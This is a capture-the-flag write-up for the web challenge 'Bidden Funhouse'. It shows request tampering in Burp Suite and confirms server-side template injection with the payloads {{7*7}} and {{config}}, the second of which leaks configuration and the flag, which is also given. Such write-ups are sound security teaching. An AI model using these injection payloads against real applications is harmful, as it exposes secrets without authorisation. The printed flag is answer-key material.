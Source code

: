 # <u>Bidden Funhouse</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Web
* **Point Value / Difficulty:** 60
## Description
Seems like you're hitting a wall. But walls can have cracks, right? Find a way past the barricade and see if you can decode what's been hidden inside. Good luck!

http://challenge.ctf.cybermaterial.com/b/
## Solution
On opening the website, we see a form input. On putting a name, it shows forbidden. 

Based on the `shell shocker` challenge, I noticed that the `/b` went missing while executing. So I opened `burpsuite` and changed the request.

From
```
GET /?name=admin HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.ctf.cybermaterial.com/b/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

to 

```
GET /b/?name=admin HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.ctf.cybermaterial.com/b/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

On sending this request we get something like this:-
![](bidden.png)

On seeing this, I searched about some possible vulnerabilities, and `ssti` was one of them. To verify it I found a stand payload `{{7*7}}` on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

On sending it instead of name I got the value of the expression.
`こんにちは 49`

Hence ssti was confirmed. Now there only I found this other payload `{{config}}` and this was the correct one.

`http://challenge.ctf.cybermaterial.com/?name={{config}}`
The above is the payload, and it gives the flag.
![[bidden_2.png]]

Flag:- `CM{Y0u_4r3_a_r3A1Ly_go0D_nINj4}`